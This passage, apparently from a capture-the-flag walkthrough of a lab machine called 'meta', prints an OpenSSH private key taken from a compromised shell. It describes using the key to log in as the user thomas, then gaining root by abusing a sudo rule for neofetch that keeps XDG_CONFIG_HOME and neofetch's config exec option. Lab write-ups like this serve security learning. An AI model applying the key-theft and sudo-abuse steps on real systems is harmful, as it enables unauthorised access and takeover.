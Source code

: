 ```bash
-----BEGIN OPENSSH PRIVATE KEY----- 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 bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE= -----END OPENSSH PRIVATE KEY-----
www-data@meta:/home/thomas$
```

In this page [https://www.samltool.com/format_privatekey.php](https://www.samltool.com/format_privatekey.php) we can give the key the correct format and use to log in as thomas via ssh.

### From Thomas to root

Once we are user Thomas we can see that we have a sudo right.

```bash
thomas@meta:~/.config/neofetch$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

We can execute neofetch but without any arguments. However we see that there is an uncommon option in this output.

- `env_keep+=XDG_CONFIG_HOME` → this means that we can keep this env variable once we execute root

We can see that te config file for neofetch is in  `/home/thomas/.config/neofetch` . In neofetch there is a way to execute any command we want but we have to specify this in the config file with the switch `exec=<command>` . Setting all this pieces togther we can escalate privielges.
